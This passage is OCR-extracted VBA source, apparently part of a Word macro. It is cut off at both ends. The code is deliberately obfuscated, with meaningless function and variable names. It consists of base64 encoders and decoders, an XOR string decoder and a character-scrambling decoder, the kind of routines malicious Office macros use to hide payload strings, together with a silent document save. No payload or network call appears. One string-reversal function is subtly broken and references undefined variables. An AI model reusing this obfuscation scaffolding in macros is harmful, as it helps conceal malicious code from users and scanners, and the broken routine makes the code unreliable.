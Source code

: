 ```vb
    Documents.Save NoPrompt:=True, OriginalFormat:=wdOriginalDocumentFormat
End Function

Function klgnagjaskjlbgbsajbsagsajgsa(ByRef arrData() As Byte) As String
    Dim objXML As MSXML2.DOMDocument
    Dim objNode As MSXML2.IXMLDOMElement
    Set objXML = New MSXML2.DOMDocument
    Set objNode = objXML.createElement("b64")
    objNode.dataType = "bin.base64"
    objNode.nodeTypedValue = arrData
    klgnagjaskjlbgbsajbsagsajgsa = objNode.Text
    Set objNode = Nothing
    Set objXML = Nothing
End Function

Function jisaksgjksbjksabjksabgjskagbjsakgbkj(ByVal strData As String) As Byte()
    Dim objXML As MSXML2.DOMDocument
    Dim objNode As MSXML2.IXMLDOMElement
    Set objXML = New MSXML2.DOMDocument
    Set objNode = objXML.createElement("b64")
    objNode.dataType = "bin.base64"
    objNode.Text = strData
    jisaksgjksbjksabjksabgjskagbjsakgbkj = objNode.nodeTypedValue
    Set objNode = Nothing
    Set objXML = Nothing
End Function

Function jioasgiosahgiosahgsahgbbbbbafsa(ByVal Text As String) As String
    Dim gasgasgisogiogioaragba As String, i As Integer
    For i = 0 To Len(gjasigasogoabvxzbnbkxnzkgas)
        gasgasgisogiogioaragba = gasgasgisogiogioaragba & Mid(Text, (Length - i), 1)
    Next i
    jioasgiosahgiosahgsahgbbbbbafsa = gasgasgisogiogioaragba
End Function

Sub skagiotiohvasgasgasgassdjjj(ByRef Text As String)
    Dim i As Long
    For i = 1 To Len(Text)
        Mid$(Text, i, 1) = Chr$(Asc(Mid$(Text, i, 1)) Xor ((32 + i) Mod 256))
    Next i
End Sub

Function gdtsrtnbzpsapg(ByRef gjasigasogoabvxzbnbkxnzkgas As String) As String
    Dim josajogjsaojpepeqwwqb As Integer, kngkasngksagnskarkwta As Integer, jifsajgiosthigaohbsb As Integer
    Dim jkasojgoisajgoashrt As String

    For i = 1 To Len(gjasigasogoabvxzbnbkxnzkgas)
        josajogjsaojpepeqwwqb = ((i - 1) Mod 4)
        If josajogjsaojpepeqwwqb = 0 Then
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i, 1) = Chr$(((Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)) - 104) + 256) Mod 256)
        ElseIf josajogjsaojpepeqwwqb = 1 Then
            jkasojgoisajgoashrt = Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i, 1) = Mid(gjasigasogoabvxzbnbkxnzkgas, i - 1, 1)
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i - 1, 1) = jkasojgoisajgoashrt
        ElseIf josajogjsaojpepeqwwqb = 2 Then
            kngkasngksagnskarkwta = (Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)) * 16) Mod 256
            jifsajgiosthigaohbsb = Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)) \ 16
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i, 1) = Chr$(kngkasngksagnskarkwta + jifsajgiosthigaohbsb)
        ElseIf josajogjsaojpepeqwwqb = 3 Then
```